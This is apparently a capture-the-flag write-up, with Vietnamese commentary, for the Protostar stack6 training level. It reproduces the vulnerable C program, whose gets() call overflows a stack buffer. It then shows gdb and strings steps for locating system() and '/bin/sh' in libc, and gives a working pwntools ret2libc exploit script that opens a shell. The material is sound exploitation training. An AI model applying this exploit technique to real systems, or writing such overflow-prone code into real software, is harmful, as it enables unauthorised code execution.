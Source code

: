 # stack6

## Description

Stack6 looks at what happens when you have restrictions on the return address.

This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.

It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at /opt/protostar/bin/stack6

## Source Code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

### Ret2libc

Giải thích 1 chút, trên môi trường ubuntu của protostar thì ASLR off, và addr của stack luôn bắt đầu bằng `0xbf` cho nên bạn ko thể chèn shellcode. Vì nếu chèn shellcode khi EIP bắt đầu bằng `0xbf` thì lệnh if sẽ True và print() rồi _exit(). Vậy nên t sẽ return về địa chỉ của system() trong libc.

*Tìm padding*

![screenshot](padding.png)

`padding = cyclic(cyclic_find(uaaa))`
*tìm địa chỉ system()*

```Terminal
(gdb) p system
  $1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

*tìm addr /bin/sh

```Terminal
$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
  11f3bf /bin/sh   
 
  -a   = Scan entire file
  -t x = Print the offset location of the string in hexdecimal
To confirm...
(gdb) x/s 0xb7e97000 + 0x11f3bf   <-- libc start address + offset
  0xb7fb63bf:  "/bin/sh"
```

### exploit script

```py
from pwn import *
proc = process('./stack6')
padding = cyclic(cyclic_find("uaaa"))
system_addr = p32(0xb7ecffb0)
##ret addr after system()
ret="\x90"*4
bin_sh_addr = p32(0xb7e97000+0x11f3bf)
payload = padding + system_addr + ret + bin_sh_addr
proc.recvuntil("please: ")
proc.sendline(payload)
proc.recvuntil('\n')
proc.interactive()
```

![run](run.png)
